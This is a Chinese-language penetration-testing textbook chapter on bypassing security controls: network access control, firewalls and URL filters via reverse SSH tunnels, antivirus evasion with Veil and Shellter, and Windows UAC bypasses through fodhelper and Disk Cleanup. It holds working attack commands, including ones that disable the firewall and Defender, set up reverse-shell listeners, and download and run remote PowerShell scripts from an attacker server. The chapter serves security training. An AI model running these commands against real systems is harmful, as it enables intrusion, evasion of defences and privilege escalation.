



# 第九章：绕过安全控制

COVID-19 大流行促使许多组织在 2020 年全面转向远程办公，这大大增加了远程工作人员所使用的终端设备的风险。从 2018 年初至今，**终端检测与响应**（**EDR**）的兴起，已成为传统防病毒软件的替代品，尤其是针对各种类型的安全事件，特别是复杂的勒索病毒和泄密软件。话虽如此，大多数情况下，当测试人员获得内部网络访问或高度特权访问时，他们认为测试已经完成，假设他们具备完全入侵网络或企业的知识和工具。

渗透测试活动中被忽视的一个方面是绕过安全控制，以评估目标组织的检测和防御技术。在所有渗透测试活动中，渗透测试员或攻击者需要了解在对目标网络/系统进行主动攻击时，什么因素会使漏洞失效，同时绕过目标组织设置的安全控制，成为网络杀链方法论的重要组成部分。在本章中，我们将回顾现有的各种安全控制，识别克服这些控制的系统化流程，并通过 Kali 工具集中的工具来演示。

在本章中，你将学习以下内容：

+   绕过**网络访问控制**（**NAC**）

+   使用不同策略和技术绕过传统的**防病毒**（**AV**）/**终端检测与响应**（**EDR**）**工具**

+   绕过应用层控制

+   理解 Windows 特定操作系统的安全控制

让我们在下一节中探讨不同类型的 NAC 以及如何绕过它们。

# 绕过网络访问控制（NAC）

NAC 基于 IEEE 802.1X 标准的基本形式工作。大多数公司实施 NAC 来保护网络节点，如交换机、路由器、防火墙、服务器，更重要的是终端。优秀的 NAC 表示实施的控制措施通过策略防止入侵，并定义谁可以访问什么。在本节中，我们将深入探讨渗透测试人员或攻击者在 RTE 或渗透测试过程中遇到的不同类型 NAC。

NAC 没有特定的共同标准或规范化；它取决于供应商和实施方式。例如，思科提供思科网络接入控制，微软提供微软网络接入保护。NAC 的主要目的是控制可以连接的设备/元素，并确保它们经过合规性测试。NAC 保护可以细分为两类：

+   预接入 NAC

+   后接入 NAC

*图 9.1* 提供了一些在内部渗透测试或后期利用阶段，按照杀伤链方法进行的攻击者思维导图活动：


图 9.1：不同 NAC 活动的思维导图

## 预入网 NAC

在预入网 NAC 中，基本上，所有控制措施都由安全要求设定，以便将新设备添加到网络中。以下部分解释了绕过这些措施的不同方法：

### 添加新元素

通常，任何成熟的 NAC 部署在企业中都能够识别网络中添加的任何新设备（元素）。在红队演练或内部渗透测试过程中，攻击者通常会向网络添加一个设备，如`pwnexpress` NAC，并通过在设备上运行 Kali Linux 并保持对该设备的 shell 访问，绕过 NAC 设置的限制。

在*第六章，*无线与蓝牙攻击*的*绕过 MAC 地址认证与开放认证*部分中，我们展示了如何通过`macchanger`绕过 MAC 地址认证，使我们的系统能够通过网络。

### 识别规则

理解规则的应用方式被认为是一种艺术，尤其是当内部系统隐藏在 NAT 后面时。例如，如果你能够通过 MAC 地址过滤绕过或物理插入局域网电缆的方式将 Kali 攻击箱连接到内部网络，你现在已经将该元素以本地 IP 地址添加到公司网络中，如*图 9.2*所示。DHCP 信息会自动更新到你的`/etc/resolv.conf`文件中。


图 9.2：Kali Linux 上带有内部 DNS 条目的 DHCP 信息

许多企业实施了 DHCP 代理来保护自己；通过添加静态 IP 地址可以绕过这一措施。一些路由器会在你的设备通过 HTTP 认证后才分配 DHCP；通过执行中间人攻击可以捕获这些信息。

#### 例外

我们通过经验发现，许多组织对其访问控制列表的规则存在明显的例外。例如，如果允许应用服务端口通过受限 IP 范围访问，则认证过的元素或端点可以模拟例如路由等例外。

#### 隔离规则

在渗透测试过程中识别隔离规则将测试攻击者绕过组织设定的安全控制的能力。

### 禁用端点安全

攻击者在预入网 NAC 中可能遇到的一种情况是，当元素不符合要求时，端点将被禁用。例如，试图连接到没有安装 antivirus 的网络元素将被自动隔离，交换机上的网络端口/接口将被禁用。

#### 防止修复

大多数终端都有定义的防病毒软件和预定义的修复活动。例如，具有有效 IP 地址并进行端口扫描的特定设备将在一段时间内被阻止，且流量会被防病毒软件阻断。

#### 添加例外

一旦你获得了远程命令行的访问权限，添加一组规则也非常重要。测试人员可以通过以管理员身份在 Windows 命令行中运行`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`来启用远程桌面协议。

例如，你可以利用`netsh` Windows 命令行工具，通过输入以下命令将远程桌面添加到防火墙中：

```
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes 
```

在成功执行前述命令后，攻击者应能看到下图：


图 9.3：通过 Windows 防火墙添加远程桌面规则

一种非隐蔽的方式是通过运行`netsh advfirewall set allprofiles state off`，或在较早版本的 Windows 中运行`netsh firewall set opmode disable`来禁用所有配置文件。

## 通过后入访问控制（NAC）

后入 NAC 是一组已经被授权的设备，位于用户交换机和分布式交换机之间。攻击者可以尝试绕过的一项显著保护措施是防火墙和入侵防御系统。

### 绕过隔离

在高级主机入侵防御的情况下，如果终端缺少安全配置，或被妥协或感染，可能会有一个规则将该终端隔离在特定的段中。这将为攻击者提供机会，利用该特定段中的所有系统。

### 检测蜜罐

我们甚至注意到，一些公司已经实施了高级保护机制，在这些机制中，被感染的系统或服务器会被引导到蜜罐解决方案，以设置陷阱并揭示感染或攻击背后的真正动机。

测试人员可以通过通常会响应并且所有端口都开放的蜜罐主机来识别这些主机。

# 绕过应用程序级别的控制

在利用成功后，绕过应用程序控制是一个直接的操作。多种应用程序级别的保护/控制被实施。在本节中，我们将深入探讨常见的应用程序级别的控制措施以及绕过它们的策略，并从公司网络建立与互联网的连接。

## 使用 SSH 隧道绕过客户端防火墙

在将自己添加到内部网络后，需要学习的主要内容之一是如何使用 SSH 绕过防火墙进行隧道连接。我们现在将探讨如何通过绕过所有已实施的安全控制来从外部互联网设置到攻击盒的反向隧道。

### 从入站到出站

在以下示例中，Kali Linux 运行在位于 `18.x.x.74` 的互联网云上，并在 `443` 端口上运行 SSH 服务（确保您通过编辑 `/etc/sshd_config` 文件并将 `Port` 设置为 `443` 来更改 SSH 设置）。如果内部企业网络上的所有端口在防火墙级别被阻止，除了端口 `80` 和 `443`，这意味着内部人员可以从企业网络访问互联网。攻击者则可以通过直接访问 `443` 端口上的 SSH 服务利用远程 Kali Linux。技术上来说，就公司而言，这是从内部网络访问互联网。

图 9.4：通过端口 443 访问远程 Kali Linux

接下来，您应该能够在云上使用您的 Kali Linux 机器与内部网络进行通信。

### 绕过 URL 过滤机制

您可以利用现有的 SSH 连接和端口转发技术绕过由安全策略或特殊设备设置的任何限制。

在以下示例中，展示了存在一个 URL 过滤设备，阻止我们访问某些网站，如以下 *图 9.5* 所示：


图 9.5：URL 过滤设备阻止的域内容

可以使用隧道工具绕过此限制；在此示例中，我们将使用名为 PuTTY 的便携式软件，可以直接从 [`www.chiark.greenend.org.uk/~sgtatham/putty/latest.html`](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) 下载：

1.  打开 `putty.exe` 应用程序（大多数情况下，便携式可执行文件不会被阻止），并连接到您的远程主机的 `443` 端口，接受证书并登录。

1.  在 **Connection** 标签中点击 **Tunnels**

1.  将本地端口设置为 `8090`，并将远程端口设置为 **自动**，如 *图 9.6* 所示：

    图 9.6：通过现有 SSH 通信设置隧道

    这现在已经启用了通过 SSH 隧道使用外部系统的设置访问您的内部系统的互联网，这意味着现在所有 TCP 端口 `8090` 上的流量都可以通过 `18.x.x.74` 的外部系统转发。

1.  下一步是进入 **Internet Options** | **LAN connections** | **Advanced** | **SOCKs**，并在 **Proxy address to use** 中输入 `127.0.0.1`，端口设置为 `8090`，如 *图 9.7* 所示：

    图 9.7：设置 Socks IP 指向代理 SSH 隧道

现在，代理已经指向远程主机，您将能够访问网站而不被代理或任何 URL 过滤设备阻止，如 *图 9.8* 所示。

通过这种方式，渗透测试人员可以绕过现有的 URL 过滤并将数据外泄到公共云、黑客托管的计算机或被封锁的网站。


图 9.8：成功访问受限域

绕过 URL 过滤机制后，攻击者可能能够访问他们控制的网站；例如，他们可能能够放置加密恶意软件以挖掘托管端点的计算能力。

### 从外到内

要从外部系统建立到内部系统的稳定连接，必须使用 SSH 创建一个隧道。在这种情况下，我们有一台连接到内部局域网的 Kali Linux 机器，它具有有效的 IP 地址。以下命令将帮助在网络内部创建一个隧道通向外部。在运行之前，测试者必须确保通过编辑 `/etc/ssh/ssh_config` 更改 SSH 配置，将 `GatewayPorts` 设置为 `yes`，并通过运行 `sudo service ssh restart` 重启 SSH 服务：

```
ssh -R 2210:localhost:443 -p 443 remotehacker@ExternalIPtoTunnel 
```

*图 9.9* 显示了通过 SSH 从内部网络登录到云端机器上的 Kali Linux，该机器已经在本地主机上打开了 `2210` 端口来转发 SSH：


图 9.9：从内部网络到外部主机创建反向 SSH 隧道

这样做是为了建立一个稳定的反向连接到远程主机，使用反向 SSH 隧道绕过任何防火墙限制。如果攻击者利用常见端口如`80`、`8080`、`443` 和 `8443`，则将更加隐蔽。一旦远程系统验证通过，从远程主机运行以下命令。这应该能让你在防火墙外部仍能访问内部网络：

```
ssh -p 2210 localhost 
```


图 9.10：通过反向 SSH 隧道成功访问防火墙外部的内部主机

拥有内部访问权限后，关键是保持持久性以便导出数据并保持访问，而不触发任何防火墙或网络保护设备。

# 通过文件绕过杀毒软件

网络攻击链中的利用阶段对渗透测试者或攻击者来说是最危险的，因为他们直接与目标网络或系统互动，且存在很高的活动被记录或身份被发现的风险。因此，必须采用隐蔽手段以尽量减少对测试者的风险。虽然没有任何特定的工具或方法是无法被检测到的，但有一些配置更改和特定的工具可以使得检测变得更加困难。

在考虑远程漏洞时，大多数网络和系统会采用各种防御控制措施，以最大限度地减少攻击风险。网络设备包括路由器、防火墙、入侵检测和防御系统以及恶意软件检测软件。

为了促进利用，大多数框架都集成了使攻击稍微隐秘的功能。Metasploit 框架允许您手动设置每个漏洞的规避因素，确定哪些因素（如加密、端口号、文件名等）可能难以识别，并且会根据每个特定 ID 进行更改。Metasploit 框架还允许将目标和攻击系统之间的通信加密（`windows/meterpreter/reverse_tcp_rc4`有效载荷），从而使漏洞利用载荷更难被检测。

Metasploit Pro（Nexpose），作为 Kali 发行版中的社区版，包含以下功能，专门用于绕过入侵检测系统：

+   可以在**Discovery** **Scan**设置中调整扫描速度，通过将速度设置为“隐秘”或“偏执”，减少与目标的交互速度

+   这通过发送更小的 TCP 数据包并增加数据包之间的传输时间来实现传输规避

+   这减少了同时对目标系统发起的攻击数量

+   对于涉及 DCERPC、HTTP 和 SMB 的漏洞攻击，提供了特定于应用程序的规避选项，这些选项可以自动设置

大多数杀毒软件依赖于特征匹配来定位病毒、勒索软件或其他恶意软件。它们会检查每个可执行文件中是否包含已知病毒特征的代码字符串（即特征），并在检测到可疑字符串时发出警报。Metasploit 的许多攻击依赖于可能具有特征的文件，这些特征随着时间的推移被杀毒软件厂商识别。

为应对此问题，Metasploit 框架允许对独立可执行文件进行编码，以绕过检测。

不幸的是，在公共网站上对这些可执行文件进行广泛测试，如[virustotal.com](http://virustotal.com)和[antiscan.me](http://antiscan.me)，已经降低了它们绕过杀毒软件的效果。然而，这也催生了像 Veil 和 Shellter 这样的框架，它们通过在将后门植入目标环境之前，将可执行文件直接上传到 VirusTotal 并进行交叉验证，从而绕过杀毒软件。

## 使用 Veil 框架

Veil 框架是另一个 AV 规避框架，由 Chris Truncer 编写，名为 Veil-Evasion，提供有效的保护和检测针对终端和服务器的独立漏洞攻击。虽然该框架已被创作者停滞（不再支持），但攻击者仍然可以通过进一步修改工具创建的有效载荷，使其不被检测到。Veil 框架的最新版本为 2021 年 8 月发布的 3.1.14。该框架由两个工具组成：**Evasion** 和 **Ordnance**。Veil 框架可以通过 Kali 仓库获得，用户只需在终端中输入`sudo apt install veil`即可自动安装。

如果在安装过程中遇到任何错误，请重新运行 `/usr/share/veil/config/setup.sh --force --silent`。

Evasion 将各种技术聚合成一个框架，简化管理，而 Ordnance 为支持的有效载荷生成 shellcode，进一步创造已知漏洞的新漏洞利用。

作为一个框架，Veil 包含多个功能，具体如下：

+   它将自定义 shellcode 集成到多种编程语言中，包括 C、C# 和 Python。

+   它可以使用 Metasploit 生成的 shellcode，或者你可以使用 Ordnance 创建你自己的 shellcode。

+   它可以集成第三方工具，如 Hyperion（使用 AES 128 位加密加密 EXE 文件）、PEScrambler 和 BackDoor Factory。

+   有效载荷可以被生成并无缝地替换到所有 PsExec、Python 和 `.exe` 调用中。

+   用户可以重复使用 shellcode 或实现自己的加密方法。

+   它的功能可以通过脚本化来自动化部署。

Veil 可以生成一个漏洞利用有效载荷；独立的有效载荷选项包括以下内容：

+   最小化的 Python 安装用于调用 shellcode；它上传一个最小的 `Python.zip` 安装包和 7Zip 二进制文件。Python 环境被解压后，触发 shellcode。由于与受害者交互的唯一文件是受信任的 Python 库和解释器，受害者的防病毒软件不会检测到任何异常活动。

+   Sethc 后门配置受害者的注册表以启动 RDP 粘滞键后门。

+   一个 PowerShell shellcode 注入器。

当有效载荷创建完成后，它们可以通过以下两种方式之一传送到目标：

+   使用 Impacket 和 PTH 工具包上传并执行。

+   UNC 调用

Veil 向用户展示主菜单，提供两个工具供选择，并加载多个有效载荷模块以及可用的命令。输入 `use Evasion` 将带我们进入 Evasion 工具，而 `list` 命令会列出所有可用的 `payloads`。Veil 框架的初始启动屏幕如 *图 9.11* 所示：


图 9.11：Veil 框架的主菜单

目前，Evasion 工具中有 41 个有效载荷，旨在通过使用加密或直接注入内存空间来绕过防病毒软件。这些有效载荷在 *图 9.12* 中展示：



图 9.12：Veil-Evasion 选项

要获取特定有效载荷的信息，输入 `info <有效载荷编号 / 有效载荷名称>` 或 `info <tab>` 来自动补全可用的有效载荷。你也可以直接输入列表中的编号。在以下示例中，我们输入了 `14` 来选择 `python/shellcode_inject/aes_encrypt` 有效载荷，并运行 `use 29`。

利用程序包含一个`expire_payload`选项。如果模块在指定时间内没有被目标用户执行，它将失效，并且还包括`CLICKTRACK`，该选项设置用户执行有效载荷所需的点击次数。此功能有助于提高攻击的隐蔽性。

一些必填选项已预先填充了默认值和描述。如果某个必填项没有默认值，测试人员需要执行以下操作：

1.  在生成有效载荷之前，输入一个值。要设置选项的值，请输入`set <option name>`。

1.  然后输入所需的值。要接受默认选项并创建利用程序，请在 Veil-Evasion shell 中输入`generate`。

存在一个已知的错误，可能会抛出与加密相关的错误信息。测试人员可以编辑位于`/usr/share/veil/tools/evasion/evasion_common/encryption.py`的文件，将第 21 行的`aes_cipher_object = AES.new(random_aes_key, AES.MODE_CBC, iv)`修改为`aes_cipher_object = AES.new(random_aes_key.encode('utf-8'), AES.MODE_CBC, iv.encode('utf-8'))`（去掉引号）。这样应该可以顺利修复错误信息。

默认情况下，Ordnance 是你能够生成特定 shellcode 的地方。如果发生错误，它将默认使用`msfvenom`或自定义 shellcode。如果选择了自定义 shellcode 选项，请以`\x01\x02`的形式输入 shellcode，去掉引号和换行符（`\n`）。如果选择默认选项`msfvenom`，则会提示选择默认有效载荷 `windows/meterpreter/reverse_tcp`。如果你想使用其他有效载荷，请按 *Tab* 键以查看可用的有效载荷。可用的有效载荷在*图 9.13*中显示：


图 9.13：Veil-Evasion 中的 Metasploit 有效载荷选项

在*图 9.14*中，按 *Tab* 键展示了一些可用的有效载荷；然而，默认选项（`windows/meterpreter/reverse_tcp`）被选中了：


图 9.14：成功创建一个包含有效载荷的文件

Veil-Evasion 利用程序也可以直接从终端创建，使用以下选项。在此示例中，我们使用选项 14 通过 Go 创建一个有效载荷可执行文件：

```
sudo veil –t Evasion -p 14 --ordnance-payload rev_https --ip 192.168.1.7 --port 443 -o Outfile 
```

上述命令应输出包含有效载荷可执行文件、源代码和资源文件的文件，并将其传送到 Metasploit 有效载荷，如*图 9.15*所示：


图 9.15：使用 Go 语言成功创建一个利用程序可执行文件

一旦创建了漏洞利用，测试人员应通过 VirusTotal 验证负载，以确保它在放置到目标系统时不会触发警报。如果负载样本直接提交到 VirusTotal 并且其行为被标记为恶意软件，则防病毒厂商可能会在 1 小时内发布针对该提交的签名更新。这就是为什么用户被告诫`不要将样本提交给任何在线扫描器！`的原因。

Veil-Evasion 允许测试人员通过 VirusTotal 进行安全检查。当任何负载被创建时，会生成一个 SHA1 哈希值并添加到`hashes.txt`中，该文件位于`~/veil-output`目录中。测试人员可以调用`checkvt`脚本将哈希值提交到 VirusTotal，VirusTotal 会将 SHA1 哈希值与其恶意软件数据库进行匹配。如果 Veil-Evasion 负载触发了匹配，那么测试人员知道它可能会被目标系统检测到。如果没有触发匹配，那么漏洞利用负载将绕过防病毒软件。使用`checkvt`命令成功查找（防病毒无法检测到）如下所示：


图 9.16：使用 Go 语言成功创建漏洞利用可执行文件

如果攻击者在运行`checkvt`命令时收到任何错误消息，请确保编辑位于`/usr/share/veil/tools/evasion/scripts/vt-notify/vt-notify.rb`文件中的`$apikey`，并将其更改为你的密钥。

## 使用 Shellter

Shellter 是另一种防病毒规避工具，它动态地感染 PE，并且也用于将 shellcode 注入任何**32 位**原生 Windows 应用程序。它允许攻击者自定义负载或使用 Metasploit 框架。大多数防病毒软件无法识别恶意可执行文件，具体取决于攻击者如何重新编码无数个签名。

Shellter 可以通过在终端运行`sudo apt-get install shellter`来安装。一旦应用程序安装完成，我们应该能够通过在终端中输入`sudo shellter`命令来启动 Shellter，然后查看*图 9.17*，此时我们已经准备好在任何可执行文件上创建后门：


图 9.17：来自 Kali Linux 的 Shellter 主菜单

一旦启动 Shellter，以下是创建恶意可执行文件的典型步骤：

1.  攻击者应当有选择`Auto`（`A`）或`Manual`（`M`）以及`Help`（`H`）的选项。为了演示，我们将使用`Auto`模式。

1.  下一步是提供 PE 目标文件；攻击者可以选择任何`.exe`文件或使用`/usr/share/windows-binaries/`中的可执行文件。在本例中，我们使用了 32 位的`putty.exe`。

1.  一旦提供了 PE 目标文件位置，Shellter 将能够反汇编 PE 文件，如*图 9.18*所示：

    图 9.18：Shellter 编译带有自定义 DLL 注入的 32 位应用程序

1.  当反汇编完成后，Shellter 会提供启用隐身模式的选项。

1.  选择隐身模式后，你将能够将列出的有效载荷注入到相同的 PE 文件中，如*图 9.19*所示，或者你可以按*C*键选择自定义有效载荷：

    图 9.19：在 Shellter 中选择有效载荷选项

1.  在这个例子中，我们使用`Meterpreter_reverse_HTTPS`并提供`LHOST`和`LPORT`，如*图 9.20*所示：

    图 9.20：成功设置有效载荷选项

1.  所有所需的信息都已输入到 Shellter 中。同时，作为输入的 PE 文件现在已经注入了有效载荷，注入过程完成了。

    图 9.21：Kali Linux 中的 Shellter 主菜单

一旦这个可执行文件被传送到受害者那里，攻击者现在将能够根据有效载荷打开监听器；在我们的例子中，`LHOST`是`10.10.10.12`，`LPORT`是`443`：

```
use exploit/multi/handler 
set payload windows/meterpreterreverse_HTTPS 
set lhost <YOUR KALI IP> 
set lport 443 
set exitonsession false 
exploit -j -z 
```

现在，你可以将前面的命令列表保存为文件名`listener.rc`，然后通过运行`msfconsole -r listener.rc`在 Metasploit 中执行。当受害者系统在没有被防病毒软件或任何安全控制阻止的情况下启动时，它应该会顺利打开到攻击者的 IP 地址的 shell，如*图 9.22*所示：


图 9.22：Kali Linux 中的 Shellter 主菜单

这总结了构建后门并将其植入受害者系统的最有效方式。

大多数防病毒软件能够捕捉到反向 Meterpreter shell；然而，建议渗透测试人员在投放漏洞之前进行多次编码。

# 无文件运行并避开防病毒

大多数组织允许用户访问所有网络段的内部基础设施，或者采用扁平化网络。在一些组织中，特别是在银行业，网络是隔离的，并且实施了严格的访问控制。例如，可能会创建一个内部防火墙规则，只允许`80`或`443`端口作为外向通信，并阻止所有其他端口。因此，建议在测试期间使用`80`或`443`端口作为所有监听器的端口。在本节中，我们将探讨绕过安全控制并接管目标系统的一些快速方法。

# 绕过 Windows 操作系统的控制

在每个企业环境中，我们看到提供给终端用户的所有终端通常都是 Windows 操作系统。由于 Windows 的使用广泛，利用 Windows 的可能性总是很高。在本节中，我们将专注于一些特定的 Windows 操作系统安全控制以及如何在访问终端后绕过它们。在下面的例子中，我们使用了一个 Windows 10 虚拟机进行演示。

## 用户账户控制（UAC）

最近的开发显示，有不同的方法可以绕过 Windows UAC，详细信息请参考 [`github.com/hfiref0x/UACME`](https://github.com/hfiref0x/UACME)。该项目主要集中在恶意软件的逆向工程。所有源代码均使用 C# 和 C 编写，这需要攻击者编译代码并执行已知的攻击。

微软引入了安全控制措施，限制进程在三个不同的完整性级别下运行：高、低和中。高完整性进程具有管理员权限，中级进程以标准用户权限运行，低完整性进程受到限制，确保如果程序被攻破，造成的损害最小。

要执行任何特权操作，程序必须以管理员身份运行并遵守 UAC 设置。四个 UAC 设置如下：

+   **始终通知**：这是最严格的设置，任何程序想要使用更高权限时，都会提示本地用户。

+   **仅在程序尝试更改我的计算机时通知我**：这是默认的 UAC 设置。当本地 Windows 程序请求更高权限时，它不会提示用户。然而，如果第三方程序请求提升权限，则会提示。

+   **仅在程序尝试更改我的计算机时通知我（不要变暗我的桌面）**：这与默认设置相同，但在提示用户时不会使系统显示器变暗。

+   **从不通知**：此选项将系统恢复到 Vista 之前的状态。如果用户是管理员，则所有程序将以高完整性运行。

因此，在利用之后，测试者（和攻击者）希望了解以下两件事：

+   系统已识别的用户是谁？

+   它们在系统中具有什么权限？

可以使用以下命令来确定：

```
C:\> whoami /groups 
```

在这里，一个受损的系统正在高完整性上下文中运行，如 *图 9.23* 中所示的 `Mandatory Label\High Mandatory Level` 标签：


图 9.23：个人账户的常见 Windows 权限

如果 `Label` 是 `Mandatory Label\Medium Mandatory Level`，则测试者需要从标准用户权限提升到管理员权限，以便许多后续的利用步骤能够成功。

假设攻击者从 Shellter 或 Veil 漏洞获取了一个受限的 shell，提升权限的第一个选项是从 Metasploit 运行 `exploit/windows/local/ask`，这将启动 `RunAs` 攻击。此操作将创建一个可执行文件，当调用时，它会运行一个请求提升权限的程序。可执行文件应该使用 `EXE::Custom` 选项创建，或者使用 Veil 框架加密，以避免被本地杀毒软件检测到。

`RunAs`攻击的缺点是，用户会被提示一个来自未知发布者的程序尝试对计算机进行更改。这个警告可能会使权限提升被识别为攻击，如*图 9.24*所示：


图 9.24：受害者在运行 exploit/windows/local/ask 时将收到的弹出窗口

如果系统当前用户属于管理员组，并且 UAC 设置为默认的**仅当程序尝试对我的计算机进行更改时通知我**（如果设置为**始终通知**，则无法绕过），攻击者将能够使用 Metasploit 的`exploit/windows/local/bypassuac`模块提升其权限。

为了确保完全控制远程计算机，我们必须能够获得管理员级别的访问权限。攻击者通常使用`getsystem`来提升当前权限到系统权限。


图 9.25：Metasploit 中的有限 Shell

`ask`模块会在目标系统上创建多个伪迹，并且大多数杀毒软件可以识别这些伪迹。请注意，这只有在用户是本地管理员时才有效。现在，让我们使用 Windows 本地漏洞绕过 UAC。一旦`SESSION`设置为活动会话，攻击者将能够绕过 Windows 操作系统设置的 UAC，成功绕过后，攻击者将获得另一个具有系统级权限的 Meterpreter 会话，如*图 9.26*所示：



图 9.26：通过 Metasploit 使用 exploit/windows/local/ask 提升权限

### 使用 fodhelper 绕过 Windows 10 中的 UAC

`fodhelper.exe`是 Windows 用于管理 Windows 设置中功能的可执行文件。如果攻击者对受害者系统有有限的 Shell 或普通用户访问权限，他们可以利用`fodhelper.exe`来绕过 UAC。

测试人员必须注意微软防御者实时监控是否已禁用，因为此路径可能会被防御者阻止作为 UAC 绕过。建议通过以管理员身份运行`PowerShell.exe Set-MpPreference –DisableRealtimeMonitoring $true`命令来禁用微软防御者。

绕过 UAC 可以通过在 Windows PowerShell 中运行以下命令来实现，这些命令利用了 Windows 操作系统中的受信任二进制文件，该二进制文件允许在大多数 UAC 设置下提升权限，而无需 UAC 提示。该二进制文件会检查特定的注册表键并执行指令：

```
WmiObject Win32_UserAccount -filter "LocalAccount=True"| Select-Object Name,Fullname,Disabled
New-Item -Path HKCU:\Software\classes\ms-settings\shell\open\command -value cmd.exe –Force
New-ItemProperty -Path HKCU:\Software\classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
fodhelper 
```

``

图 9.27：手动 fodhelper UAC 绕过

或者，这可以通过运行一行 PowerShell 脚本来实现。在攻击者托管的 HTTP Web 服务器的帮助下，可以通过以下方式实现：

1.  下载绕过脚本（[`github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/blob/main/Chapter%2009/FodHelperBypassUAC.ps1`](https://github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/blob/main/Chapter%2009/FodHelperBypassUAC.ps1)）

1.  通过运行 `sudo service apache2 start` 在 Kali Linux 上启动 `apache2` 服务

1.  将漏洞利用文件复制到相关的 HTML 文件夹，`cp FodhelperBypass.ps1 /var/www/html/anyfolder/`，然后使用以下命令运行：

    ```
    Powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1') FodhelperBypass -program 'cmd.exe /c Powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/agent.ps1')" 
    ```

上述脚本将打开一个新的 Empire PowerShell shell，并以高权限运行。我们将在 *第十章*，*利用* 中详细探讨如何使用 PowerShell Empire。

### 使用磁盘清理绕过 Windows 10 中的 UAC

这种攻击方法涉及磁盘清理，这是 Windows 中的一个工具，旨在释放硬盘空间。Windows 10 上的默认计划任务揭示了一个名为 SilentCleanup 的任务，它以最高权限执行磁盘清理过程 `cleanmgr.exe`，即使是由无权限用户执行也会如此。该过程会在 `Temp` 目录中创建一个名为 `GUID` 的新文件夹，并将一个可执行文件和多个 DLL 文件复制到其中。

然后启动可执行文件，它会按特定顺序加载 DLL 文件，如 *图 9.28* 所示：

```
reg add hkcu\Environment /v windir /d "cmd /K reg delete hkcu\Environment /v windir /f && REM"
schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I 
```


图 9.28：利用 DiskCleanUP 漏洞提升权限

尽管 Microsoft Defender 提供了实时监控，但该漏洞利用可能在设备上多次运行时仍然有效。

## 混淆 PowerShell 并使用无文件技术

近期端点安全防御机制和基于 EDR 的实时监控对现有攻击工具造成了很多限制。然而，总是有新的方法可以绕过它们。在本节中，我们将探讨如何混淆一个已知的 PowerShell 有效载荷，并获取一个远程 shell 给攻击者。

我们将利用`PyFuscation`工具。这个工具是用 Python 3 编写的，能够替换给定 PowerShell 脚本中的所有函数名、变量和参数。可以通过运行以下命令从 Git 仓库直接克隆：

```
sudo git clone https://github.com/CBHue/PyFuscation 
cd PyFuscation 
sudo python3 PyFuscation.py 
```

